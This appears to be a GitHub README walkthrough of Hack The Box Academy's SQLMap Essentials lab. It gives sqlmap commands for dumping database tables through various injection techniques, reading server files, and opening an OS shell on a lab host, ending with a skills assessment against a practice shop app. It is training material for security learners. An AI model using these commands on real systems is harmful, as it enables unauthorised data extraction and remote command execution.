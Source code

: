 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## How to get case file?

Start Burp Suite and configure your browser to use it as a proxy (usually 127.0.0.1:8080).

Navigate to the vulnerable web page in your browser (e.g., the Catalog page or form submission).

Capture the request using the Proxy > HTTP history tab in Burp.

Right-click the request > "Save item" > Save it as Case1.txt, shop.txt, etc.

Format: Plain HTTP request (no headers or extra encoding)

File Extension: .txt (SQLMap accepts raw HTTP requests this way)

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##
```bash
sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch
```
## Case 5: Time-Based Blind SQLi ##
```bash
sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries
```
## Case 6: Using Prefix Payload ##
```bash
sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'
```
## Case 7: Union-Based Injection ##
```bash
sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```
## Case 8: CSRF Token Handling ##
```bash
sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast
```
## Case 9: Randomized Parameter ##
```bash
sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
## Case 10: Random Agent ##
```bash
sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast
```
## Case 11: Tamper Script ##
```bash
sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast
```
## File Reading & OS Shell ##
```bash
sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt
```
## OS Shell Access ##
```bash
sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null
```
## Skills Assessment: Minishop Web App ##

## Overview ##
**Application** : Minishop
**Pages Analyzed**: Blog, Contact Us, Catalog
### Findings
**Blog**: Not vulnerable (form action is '#')
**Contact Us**: Not vulnerable (form action is '#')
**Catalog (/shop)**: Vulnerable — uses JavaScript to post JSON to action.php

## Exploitation
### Intercepted request using Burp Suite
### Saved to shop.txt

## Exploited with SQLMap:
```bash
sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump
```bash
## Outcome

Successfully dumped final_flag table from the production database.

## Conclusion

**This module strengthened my understanding of:**

_SQL injection techniques (Boolean-based, Time-based, Union-based)
_
_Tamper scripts, CSRF tokens, and header injection_

_File read and OS shell interaction_

_Real-world application analysis and exploitation_

_I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics._

## 📜 License

This project is licensed under the MIT License.
